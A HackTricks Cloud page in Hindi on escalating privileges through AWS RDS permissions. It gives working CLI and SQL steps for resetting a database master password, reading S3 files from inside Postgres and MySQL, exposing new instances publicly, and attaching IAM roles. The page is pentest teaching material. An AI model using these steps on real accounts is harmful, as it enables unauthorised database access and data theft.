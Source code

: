 # AWS - RDS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## RDS - रिलेशनल डेटाबेस सेवा

RDS के बारे में अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

उस अनुमति के साथ एक हमलावर **मास्टर उपयोगकर्ता का पासवर्ड संशोधित कर सकता है**, और डेटाबेस के अंदर लॉगिन:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
{% hint style="warning" %}
आपको **डेटाबेस से संपर्क करने** में सक्षम होना चाहिए (वे आमतौर पर केवल आंतरिक नेटवर्क से सुलभ होते हैं)।
{% endhint %}

**संभावित प्रभाव:** डेटाबेस के अंदर संवेदनशील जानकारी खोजें।

### rds-db:connect

[**दस्तावेज़ों**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html) के अनुसार, इस अनुमति के साथ एक उपयोगकर्ता DB इंस्टेंस से कनेक्ट कर सकता है।

### RDS भूमिका IAM अनुमतियों का दुरुपयोग

#### Postgresql (Aurora)

{% hint style="success" %}
यदि आप **`SELECT datname FROM pg_database;`** चलाते हैं और आपको **`rdsadmin`** नामक एक डेटाबेस मिलता है, तो आप जानते हैं कि आप एक **AWS postgresql डेटाबेस** के अंदर हैं।
{% endhint %}

पहले आप यह जांच सकते हैं कि क्या इस डेटाबेस का उपयोग किसी अन्य AWS सेवा तक पहुँचने के लिए किया गया है। आप स्थापित एक्सटेंशन को देखकर यह जांच सकते हैं:
```sql
SELECT * FROM pg_extension;
```
यदि आप कुछ ऐसा पाते हैं जैसे **`aws_s3`** तो आप मान सकते हैं कि इस डेटाबेस के पास **S3 पर कुछ प्रकार की पहुंच है** (अन्य एक्सटेंशन जैसे **`aws_ml`** और **`aws_lambda`** भी हैं)।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप वहां देख सकते हैं कि **क्लस्टर में कोई IAM भूमिका संलग्न है** या नहीं, क्षेत्र **`AssociatedRoles`** में। यदि कोई है, तो आप मान सकते हैं कि डेटाबेस **अन्य AWS सेवाओं तक पहुंचने के लिए तैयार किया गया था**। **भूमिका के नाम** के आधार पर (या यदि आप भूमिका के **अनुमतियों** को प्राप्त कर सकते हैं) आप **अनुमान** लगा सकते हैं कि डेटाबेस के पास क्या अतिरिक्त पहुंच है।

अब, **बकेट के अंदर एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
यदि आपके पास **कच्चे AWS क्रेडेंशियल्स** हैं, तो आप उन्हें S3 डेटा तक पहुँचने के लिए भी उपयोग कर सकते हैं:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
{% hint style="info" %}
Postgresql **को S3 तक पहुँचने के लिए किसी भी पैरामीटर समूह के चर को बदलने की आवश्यकता नहीं है**।
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
एक mysql के अंदर, यदि आप क्वेरी **`SELECT User, Host FROM mysql.user;`** चलाते हैं और वहाँ एक उपयोगकर्ता है जिसका नाम **`rdsadmin`** है, तो आप मान सकते हैं कि आप एक **AWS RDS mysql db** के अंदर हैं।
{% endhint %}

Mysql के अंदर **`show variables;`** चलाएँ और यदि चर जैसे **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`** के मान हैं, तो आप मान सकते हैं कि डेटाबेस S3 डेटा तक पहुँचने के लिए तैयार है।

इसके अलावा, यदि आपके पास **`aws rds describe-db-clusters`** चलाने की अनुमति है, तो आप देख सकते हैं कि क्या क्लस्टर के पास कोई **संबंधित भूमिका** है, जिसका आमतौर पर मतलब AWS सेवाओं तक पहुँच है।

अब, एक बकेट के अंदर **एक फ़ाइल पढ़ने के लिए** आपको पूरा पथ जानना होगा। आप इसे पढ़ सकते हैं:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBCluster` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS इंस्टेंस में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंचने** या इंस्टेंस के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।\
ध्यान दें कि कुछ DBs को अतिरिक्त कॉन्फ़िगरेशन की आवश्यकता होती है जैसे Mysql, जिसे पैरामीटर समूहों में भूमिका ARN निर्दिष्ट करने की आवश्यकता होती है।

### `rds:CreateDBInstance`

इस अनुमति के साथ एक हमलावर एक **क्लस्टर के अंदर एक नया उदाहरण** बना सकता है जो पहले से मौजूद है और जिसमें एक **IAM भूमिका** संलग्न है। वह मास्टर उपयोगकर्ता पासवर्ड को बदलने में असमर्थ होगा, लेकिन वह नए डेटाबेस उदाहरण को इंटरनेट पर उजागर करने में सक्षम हो सकता है:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: Test
{% endhint %}

एक हमलावर जिसके पास `rds:CreateDBInstance` और `iam:PassRole` की अनुमति है, **एक निर्दिष्ट भूमिका के साथ एक नया RDS उदाहरण बना सकता है**। हमलावर फिर संभावित रूप से **संवेदनशील डेटा तक पहुँच सकता है** या उदाहरण के भीतर डेटा को संशोधित कर सकता है।

{% hint style="warning" %}
संलग्न करने के लिए भूमिका/उदाहरण-प्रोफ़ाइल की कुछ आवश्यकताएँ (से [**यहाँ**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

* प्रोफ़ाइल आपके खाते में मौजूद होनी चाहिए।
* प्रोफ़ाइल में एक IAM भूमिका होनी चाहिए जिसे Amazon EC2 को मानने की अनुमति हो।
* उदाहरण प्रोफ़ाइल का नाम और संबंधित IAM भूमिका का नाम `AWSRDSCustom` उपसर्ग से शुरू होना चाहिए।
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

### `rds:AddRoleToDBInstance`, `iam:PassRole`

एक हमलावर जिसके पास `rds:AddRoleToDBInstance` और `iam:PassRole` की अनुमति है, वह **एक मौजूदा RDS उदाहरण में एक निर्दिष्ट भूमिका जोड़ सकता है**। इससे हमलावर को **संवेदनशील डेटा तक पहुंच** या उदाहरण के भीतर डेटा को संशोधित करने की अनुमति मिल सकती है।

{% hint style="warning" %}
DB उदाहरण को क्लस्टर के बाहर होना चाहिए इसके लिए
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**संभावित प्रभाव**: RDS उदाहरण में संवेदनशील डेटा तक पहुंच या डेटा में अनधिकृत संशोधन।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
